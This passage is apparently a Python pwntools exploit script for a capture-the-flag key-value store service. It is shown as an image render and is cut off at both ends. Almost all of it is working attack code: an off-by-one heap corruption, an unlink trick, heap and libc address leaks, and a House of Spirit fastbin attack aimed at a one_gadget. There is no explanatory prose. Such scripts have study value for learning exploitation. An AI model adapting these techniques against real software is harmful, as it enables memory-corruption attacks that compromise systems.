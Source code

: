 ```
    #p.recvuntil(" bytes]:")
    #data=p.recv(size)
    #return data
def DEL(row_key):
    p.recvuntil("PROMPT: Enter command:")
    p.sendline("DEL")
    p.recvuntil("PROMPT: Enter row key:")
    p.sendline(row_key)

PUT("d"*8,2,'D')
PUT("a"*8,128,'A'*128)
PUT("b"*8,2,'B')
PUT("c"*8,2,'C')
PUT("b"*8,248,'B'*248) 
PUT("c"*8,280,'C'*248+p64(0x21)+'C'*24) #for next size check #invalid next size (normal) 
                    #off by one --&gt; (size--)  --&gt;(next chunk address++)
DEL("b"*8)
DEL('X'*240+p64(752)) #240+8=248   &lt;--!off by one 
DEL("a"*8)
DEL("c"*8)

DEL("d"*8)
PUT("KEY1",1000,("K"*264+p64(64)+p64(0)+"K"*48+p64(33)+p64(0)+"K"*24+"KEY1x00").ljust(999,"x01")) # &lt;--cause unlink
PUT("LEAKBUF",8,'LEAKBUF')

DEL("123")#Avoid next chunk size check
GET("KEY1")
p.recvuntil(" bytes]:")
KEY1=p.recv(1000)

#print "KEY1="+str(KEY1)

#LEAK HEAP
LEAK_HEAP=u64(KEY1[273:280].ljust(8,"x00"))
HEAP_ADDR=LEAK_HEAP-0xf0
print "HEAP_ADDR="+hex(HEAP_ADDR) #TreeNode-&gt;row_key-offset

#LEAK FUNCTION
def LEAK(addr):
    size=0x100
    PUT("KEY1",1000,"A"*999)
    PUT("KEY1",1000,KEY1[1:281]+p64(size)+p64(addr)+KEY1[297:]) 
    return GET("LEAKBUF")
LEAK(HEAP_ADDR+0x588)
p.recvuntil("bytes]:")
LEAK_ADDR=p.recv(0x100)
LIBC_ADDR=u64(LEAK_ADDR[1:8].ljust(8,"x00"))-0x3be7b8
print "LIBC_ADDR="+hex(LIBC_ADDR)

#House of Spirit
fake_chunk=HEAP_ADDR+0x2f0
one_gadget=0xe58c5+LIBC_ADDR
address=LIBC_ADDR+0x3BE740-35#address=0x66666666

PUT("KEY1",1000,"A"*1000)
PUT("KEY1",1000,KEY1[1:289]+p64(fake_chunk)+KEY1[297:369]+p64(0)+p64(0x70)+p64(0x70)*16+KEY1[513:]) #0x70 to pass the fast bin next chunk check
DEL("LEAKBUF")
GET("KEY1")
p.recvuntil(" bytes]:")
KEY1=p.recv(1000)
#PUT("KEY1",1000,"A"*1000)
```